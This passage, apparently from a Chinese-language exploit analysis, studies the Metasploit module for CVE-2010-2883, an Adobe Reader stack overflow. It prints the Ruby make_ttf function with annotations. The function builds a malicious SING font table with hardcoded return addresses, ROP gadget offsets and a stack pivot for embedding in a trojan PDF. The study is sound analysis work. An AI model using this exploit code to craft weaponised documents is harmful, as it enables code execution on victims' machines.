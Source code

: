 通过审计 exploit 函数，我们能够很快地理解这个 exp 工作的大体流程是生成恶意的 ttf 与 js 文件，把它们封装到木马 pdf 文件中并导出 pdf  到本地。忽略制作 pdf 文件与增加 payload 随机性进行混淆的相关函数，exp 进行漏洞利用的核心代码显然位于 make_ttf 与 make_js 两个函数中。由于栈溢出是由 ttf 文件中的中的 payload 触发的，因此我们先从 make_ttf 函数开始审计

### make_ttf 函数

```ruby
    def make_ttf
        ttf_data = ""

        # load the static ttf file

        #* Exp 使用的基础文件即下方原注释所标注的 ttf 文件，exp 只需要对基础文件进行修改注入 payload 即可
        # NOTE: The 0day used Vera.ttf (785d2fd45984c6548763ae6702d83e20)
        path = File.join( Msf::Config.install_root, "data", "exploits", "cve-2010-2883.ttf" )
        fd = File.open( path, "rb" )
        ttf_data = fd.read(fd.stat.size)
        fd.close

        # Build the SING table
        #* 初始化 sing 字符串
        sing = ''
        #* 生成 SING 表 uniqueName 字段前的八个字段的值
        sing << [
            0, 1,   # tableVersionMajor, tableVersionMinor (0.1)
            0xe01,  # glyphletVersion
            0x100,  # embeddingInfo
            0,      # mainGID
            0,      # unitsPerEm
            0,      # vertAdvance
            0x3a00  # vertOrigin
        ].pack('vvvvvvvv')
        # uniqueName
        # "The uniqueName string must be a string of at most 27 7-bit ASCII characters"
        #* 生成长度为 0x254 - sing 字符串长度的随机字符串用于增加 payload 随机性
        #* 为方便动态分析时定位 payload 可改为
        #* sing << "A" * (0x254 - sing.length)
        sing << rand_text(0x254 - sing.length)

        # 0xffffffff gets written here @ 0x7001400 (in BIB.dll)
        sing[0x140, 4] = [0x4a8a08e2 - 0x1c].pack('V')

        # This becomes our new EIP (puts esp to stack buffer)
        ret = 0x4a80cb38 # add ebp, 0x794 / leave / ret
        sing[0x208, 4] = [ret].pack('V')

        # This becomes the new eip after the first return
        ret = 0x4a82a714
        sing[0x18, 4] = [ret].pack('V')

        # This becomes the new esp after the first return
        esp = 0x0c0c0c0c
        sing[0x1c, 4] = [esp].pack('V')

        # Without the following, sub_801ba57 returns 0.
        sing[0x24c, 4] = [0x6c].pack('V')

        #* 将 payload 插入到基础文件的指定位置
        ttf_data[0xec, 4] = "SING"
        ttf_data[0x11c, sing.length] = sing

        ttf_data
    end
```
